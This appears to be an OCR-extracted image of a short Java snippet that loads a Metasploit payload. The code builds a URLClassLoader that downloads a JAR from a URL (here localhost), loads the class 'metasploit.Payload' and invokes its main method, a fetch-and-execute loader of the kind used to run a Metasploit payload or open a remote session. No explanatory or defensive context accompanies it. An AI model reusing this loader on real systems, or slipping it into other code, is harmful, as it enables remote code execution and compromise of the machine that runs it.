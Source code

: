 
URLClassLoader u = new URLClassLoader(new URL[]{new URL("http://localhost/~alvaro/met.jar")});
Class c = u.loadClass("metasploit.Payload");
c.newInstance();
try {
   c.getMethod("main",new Class[]{Class.forName("[Ljava.lang.String;")}).invoke(null,new Object[]{new String[0]});
} catch (Exception e) {
   e.printStackTrace();
}